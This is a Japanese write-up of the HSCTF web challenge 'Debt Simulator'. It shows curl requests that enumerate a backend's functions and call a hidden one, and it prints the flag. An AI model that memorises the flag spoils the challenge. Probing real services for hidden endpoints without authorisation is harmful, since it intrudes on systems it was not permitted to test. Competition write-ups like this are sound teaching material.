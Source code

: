 # Debt Simulator:Web Exploitation:100pts
[https://debt-simulator.web.hsctf.com/](https://debt-simulator.web.hsctf.com/)  

# Solution
アクセスするとゲームが楽しめる。  
Debt :))  
[site.png](site/site.png)  
絶対に勝てないようになっているのでズルをしてみる。  
$-1000で`You lost. You have less than $-1000. Better luck next time.`  
$2000で`You won. You have more than $2000. Try your luck again?`  
と表示されるだけだ。  
通信を見てみる(ソースのjsを見ても良い)と、https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001 にPOSTしている。  
詳細は以下になる。  
```bash
$ curl -X POST -d "function=getPay" https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"response":15}
$ curl -X POST -d "function=getCost" https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"response":52}
$ curl -X POST -d "function=AAAAA" https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"response":"could not recognize function"}
$ curl -X POST -d "function=getFlag" https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"response":"nice try but no"}
```
functionが不明である。  
getFlagでは取れないようだ。  
GETするとfunctionが降ってきたので、getgetgetgetgetgetgetgetgetFlagを使うとflagが得られる。  
```bash
$ curl -X GET https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"functions":["getPay","getCost","getgetgetgetgetgetgetgetgetFlag"]}
$ curl -X POST -d "function=getgetgetgetgetgetgetgetgetFlag" https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"response":"flag{y0u_f0uND_m3333333_123123123555554322221}"}
```

## flag{y0u_f0uND_m3333333_123123123555554322221}